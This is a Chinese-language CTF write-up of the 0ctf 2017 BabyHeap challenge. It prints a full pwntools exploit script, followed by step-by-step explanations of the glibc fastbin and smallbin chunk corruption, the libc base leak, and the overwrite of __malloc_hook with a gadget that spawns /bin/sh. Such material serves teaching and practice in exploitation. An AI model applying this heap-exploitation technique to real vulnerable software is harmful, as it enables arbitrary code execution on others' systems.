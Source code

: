 # 解析 Baby-Heap-2017-255 问题

> 主要参考了 [http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

## 起源
> 这里调用了一个在libc中的重要BUG 就是利用在进行fastbin中不进行检查，而产生的。
> 要了解fastbin请参看[浅析Linux堆溢出之fastbin](http://www.freebuf.com/news/88660.html) 
> 在这里，其实它就是要用函数对malloc本身的不检查被使用的内容，而进行的操作

```python
def exploit(r):
    r.recvuntil(': ')

    alloc(0x20)             
    alloc(0x20)
    alloc(0x20)
    alloc(0x20)
    alloc(0x80)                 #  <1>

    free(1)
    free(2)                     #  <2>

    payload  = p64(0)*5
    payload += p64(0x31)
    payload += p64(0)*5
    payload += p64(0x31)
    payload += p8(0xc0)
    fill(0, payload)            #  <3>

    payload  = p64(0)*5
    payload += p64(0x31)
    fill(3, payload)            #  <4>

    alloc(0x20)
    alloc(0x20)                 #  <5>


    payload  = p64(0)*5
    payload += p64(0x91)
    fill(3, payload)            #  <6>
    alloc(0x80)                 #  <7>
    free(4)                     #  <8>

    libc_base = u64(dump(2)[:8]) - 0x3a5678
    log.info("libc_base: " + hex(libc_base))

    alloc(0x68)                 #  <9>
    free(4)                     #  <10>

    fill(2, p64(libc_base + 0x3a55ed))
    alloc(0x60)
    alloc(0x60)                 #  <11>

    payload  = '\x00'*3
    payload += p64(0)*2
    payload += p64(libc_base + 0x41374)
    fill(6, payload)            #  <12>
    log.info('wait for pause')
    pause()
    alloc(255)                  #  <13>

    r.interactive()

```

> 下面对于上面的代码进行解释，（对于pwn或者python不懂的人，请参考[pwn tutorial](https://docs.pwntools.com/en/stable/)）
> <1> 的位置，其实，就是分配了5个内存。这里分配前4个是在fastbin上进行分配的，而4号是在smallbin上进行分配的。这些都是有用的。

> <2> 这里释放了 1号与2号内存，记住0号内存没有释放。

> <3> 这里其实写了原来的1号与2号内存进行管理的header，这个时候就是设置为0x31，这个值是表示在fastbin中进行分配的。这里最后修改为0xc0的目的是把这个进行伪造成smallbin分配的内存。这个在2号就是在smallbin上分配了。

> <4> 这里是3号内存进行覆写。这里是把4号内存的header flag写了。

> <5> 又申请了1号与2号内存。这个时候，2号内存是与4号内存同一个地址，这个是进行处理的。

> <6> 把4号内存修改为0x91的flag，这个已经是可以在smallbin中实现的。

> <7> 这里分配了5号内存，这个是从smallbin 分配，这个是可以覆盖了bin地

> <8> 释放4号内存，这时这个值是得到4号的main_arena的内容，2号内存是指向同一个地址，所以相同可以得到

> <9> 得到2号内存的main_arena地址，这个地址与libc的加载头地址的差值是0x3a5678,至于如何得到，这里请用gdb 与readelf进行读取。

> <10> 这里释放了4号内存，前面在<8>中得到的0x91使得它是用smallbin地址，这样可以设置进行设置0x31

> <11> 分配4号与6号内存，这些地址是可以进行处理的smallbin，

> <12> 设置地址是一段可执行exec("/bin/sh",args,__environ) 的起始代码，这个找到是进行disassemble。

> <13> 当时行分配的时候，原来的__malloc_hook已经进行了修改，就是我们修改的代码，这个时候，可以调用exec了。


> 从全部的步骤看，这里的使用，真的进行攻击不是一个好方案，不但方法特别，而且不一定进攻确定。